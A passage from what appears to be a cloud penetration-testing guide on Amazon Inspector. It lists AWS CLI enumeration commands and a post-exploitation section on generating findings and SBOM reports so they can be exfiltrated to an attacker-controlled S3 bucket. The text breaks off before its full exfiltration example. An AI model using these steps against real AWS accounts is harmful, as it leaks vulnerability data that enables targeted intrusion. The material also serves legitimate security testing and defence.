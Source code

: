 ```bash
## Retrieve statistical data and about the resources AWS Inspector monitors (ReadOnlyAccess policy is enough for this)
aws inspector2 list-coverage-statistics

## List the aggregated usage total over the last 30 days
aws inspector2 list-usage-totals [--account-ids <value>]

### INSPECTOR CLASSIC ###

## Assessments info, there is a "describe" action for each one to get more info
aws inspector list-assessment-runs
aws inspector list-assessment-targets
aws inspector list-assessment-templates
aws inspector list-event-subscriptions

## Get findings
aws inspector list-findings

## Get exclusions
aws inspector list-exclusions --assessment-run-arn <arn>

## Rule packages
aws inspector list-rules-packages
```

## Post Exploitation

{% hint style="success" %}
From an attackers perspective, this service can help the attacker to find vulnerabilities and network exposures that could help him to compromise other instances/containers.

However, an attacker could also be interested in disrupting this service so the victim cannot see vulnerabilities (all or specific ones).
{% endhint %}

### `inspector2:CreateFindingsReport`, `inspector2:CreateSBOMReport`

An attacker could generate detailed reports of vulnerabilities or software bill of materials (SBOMs) and exfiltrate them from your AWS environment. This information could be exploited to identify specific weaknesses, outdated software, or insecure dependencies, enabling targeted attacks.

```bash
# Findings report
aws inspector2 create-findings-report --report-format <CSV | JSON> --s3-destination <bucketName=string,keyPrefix=string,kmsKeyArn=string> [--filter-criteria <value>]
# SBOM report
aws inspector2 create-sbom-report --report-format <CYCLONEDX_1_4 | SPDX_2_3> --s3-destination <bucketName=string,keyPrefix=string,kmsKeyArn=string> [--resource-filter-criteria <value>]
```
The following example shows how to exfiltrate all the Active findings from Amazon Inspector to an attacker controlled Amazon S3 Bucket with an attacker controlled Amazon KMS key:
